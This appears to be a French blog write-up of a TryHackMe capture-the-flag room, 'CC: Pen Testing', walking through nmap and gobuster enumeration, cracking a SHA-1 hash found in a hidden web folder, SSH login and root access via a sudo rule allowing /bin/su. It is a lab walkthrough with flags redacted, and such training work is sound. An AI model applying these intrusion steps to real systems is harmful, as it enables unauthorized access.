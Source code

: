 ```yaml
---
title: "Write-up | CC: Pen Testing"
date: 2020-07-07T21:04:25+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Ce write-up couvrira l'examen final de la room CC: Pen Testing, sur [Try Hack Me](https://tryhackme.com).

## Reconnaissance

Comme à l'habitude, un petit `nmap` pour commencer :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:96:a6:1e:81:73:ae:17:4c:e1:7c:63:78:3c:71:1c (RSA)
|   256 6d:9c:f2:07:11:d2:aa:19:99:90:bb:ec:6b:a1:53:77 (ECDSA)
|_  256 0e:a5:fa:ce:f2:ad:e6:fa:99:f3:92:5f:87:bb:ba:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Rien de bien nouveau ici : SSH sur le port 22 et serveur Apache sur le port 80. J'utilise ensuite `gobuster` pour enumérer le serveur web :
```
===============================================================
2020/07/07 18:09:15 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/[edited] (Status: 301)
/server-status (Status: 403)
Progress: 19113 / 20470 (93.37%)^C
===============================================================
2020/07/07 18:12:40 Finished
===============================================================
```
Il y a donc un dossier caché. Je relance `gobuster` dessus pour essayer de trouver un fichier, bingo !

## Pénétration
La page contient des identifiants :
```
nyan:[edited]
```

J'utilise `hash-identifier` afin de savoir quel est le type de hash utilisé :
```
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

puis [CrackStation](https://crackstation.net) pour essayer de le casser. Il me retourne le mot de passe correspondant au hash. Je vais pourvoir essayer ces identifiants sur le port 22.
Ça fonctionne !

## Élévation de privilèges

Une fois connecté, je `ls` le dossier courant afin de connaitre le nom du flag et de le lire :
```
$ cat user.txt 
[edited]
```

Afin de voir si je peux exécuter des commandes en tant que root, je tape `sudo -l` :
```
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```
Ça part bien :)

Juste un petit `sudo su` et me voilà root !
```
# cat /root/root.txt 
[edited]
```

Et voilà ! Une petite room sympa pour commencer les CTF !

